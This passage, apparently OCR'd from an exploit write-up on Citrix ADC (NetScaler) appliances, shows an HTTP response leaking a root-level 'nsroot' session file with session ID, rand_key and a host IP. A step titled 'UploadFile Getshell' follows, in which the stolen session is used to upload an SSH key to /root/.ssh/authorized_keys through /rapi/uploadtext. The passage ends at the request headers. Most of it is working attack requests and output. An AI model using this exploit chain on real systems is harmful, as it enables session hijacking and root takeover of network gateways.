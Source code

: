     <clipermission></clipermission>

> response

    HTTP/1.1 406 Not Acceptable
    Date: Sun, 12 Jul 2020 12:30:33 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Expires: -1
    Cache-Control: private, must-revalidate, post-check=0, pre-check=0
    Pragma: private
    Content-Disposition: attachment;filename="sess_6c5c31300c22b200f0273e7a13be47cb"
    Accept-Ranges: bytes
    Content-Length: 2162
    X-XSS-Protection: 1; mode=block
    Keep-Alive: timeout=15, max=100
    Connection: Keep-Alive
    Content-Type: application/octet-stream

    NSAPI|s:254:"##703FFFA9A2E71F7435B67182A95E196770FF69246DB68B6BE92E825B8A520D00F1FCF6E23F897090DBDEDBE817FFE81D1501200A8BB36C9FFA176EDA41E473DC240A804B90B8BFE1EC30DA87C6FAD3261A8B3C09C7BB82F97DDB3DB41A69CA0B849AFD6B17827463358B700D5847F91F78619B8FA1A98ED4DED3509AB11C";NSAPI_DOMAIN|s:0:"";NSAPI_PATH|s:1:"/";login_warning|s:0:"";sysid|s:6:"450070";oemid|s:1:"0";superuser|s:4:"true";nsbw|i:0;ns_is_sgw|s:5:"false";nsbrandDesc|s:7:"ADC VPX";username|s:6:"nsroot";timezone_offset|i:28800;nsversion|s:63:" NS12.1: Build 55.13.nc, Date: Nov  4 2019, 22:20:18   (64-bit)";nsversion_error|b:0;ns_mode|i:2;nshostDesc|s:22:"49.234.251.224 (ADC01)";nsbrand|s:2:"NS";nsvpx|s:3:"VPX";ns_model|s:4:"1000";ns_aws_pin|s:0:"";ns_is_aws|s:5:"false";ns_is_azure|s:5:"false";ns_is_gcp|s:5:"false";rand|s:26:"845810655.1594556994263502";rand_key|s:26:"13590513441594556994263577";licenseMap|a:62:{s:2:"wl";b:1;s:2:"sp";b:1;s:2:"lb";b:1;s:2:"cs";b:1;s:2:"cr";b:1;s:2:"sc";b:1;s:3:"cmp";b:1;s:5:"delta";b:0;s:2:"pq";b:1;s:3:"ssl";b:1;s:4:"gslb";b:1;s:5:"gslbp";b:1;s:5:"hdosp";b:1;s:7:"routing";b:1;s:2:"cf";b:1;s:18:"contentaccelerator";b:0;s:2:"ic";b:0;s:6:"sslvpn";b:1;s:14:"f_sslvpn_users";s:4:"1000";s:11:"f_ica_users";s:1:"0";s:3:"aaa";b:1;s:4:"ospf";b:1;s:3:"rip";b:1;s:3:"bgp";b:1;s:7:"rewrite";b:1;s:6:"ipv6pt";b:1;s:5:"appfw";b:0;s:9:"responder";b:1;s:4:"agee";b:0;s:4:"nsxn";b:1;s:13:"htmlinjection";b:1;s:7:"modelid";s:4:"1000";s:4:"push";b:1;s:6:"wionns";b:1;s:7:"appflow";b:1;s:11:"cloudbridge";b:0;s:20:"cloudbridgeappliance";b:0;s:22:"cloudextenderappliance";b:0;s:4:"isis";b:1;s:7:"cluster";b:1;s:2:"ch";b:1;s:6:"appqoe";b:1;s:10:"appflowica";b:1;s:13:"isstandardlic";b:0;s:15:"isenterpriselic";b:1;s:13:"isplatinumlic";b:0;s:9:"issgwylic";b:0;s:8:"isswglic";b:0;s:4:"rise";b:1;s:3:"feo";b:1;s:3:"lsn";b:1;s:13:"licensingmode";s:5:"Local";s:16:"daystoexpiration";s:2:"50";s:8:"rdpproxy";b:1;s:3:"rep";b:0;s:12:"urlfiltering";b:0;s:17:"videooptimization";b:0;s:12:"forwardproxy";b:0;s:15:"sslinterception";b:0;s:23:"remotecontentinspection";b:1;s:11:"adaptivetcp";b:0;s:3:"cqa";b:0;}grouping_separator|s:1:",";decimal_separator|s:1:".";defaultpartition|s:7:"default";

### 0x07 UploadFile Getshell

You Can Upload to /root/.ssh/authorized\_key Note: Get rand\_key &
SESSID from file:`sess_[32charactor]`

> request

    POST /rapi/uploadtext HTTP/1.1
    Host: www.0-sec.org:9080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://citrix.local/menu/neo
    DNT: 1
    rand_key: 845810655.1594556994263502
    Cookie: SESSID=6c5c31300c22b200f0273e7a13be47cb; startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 92
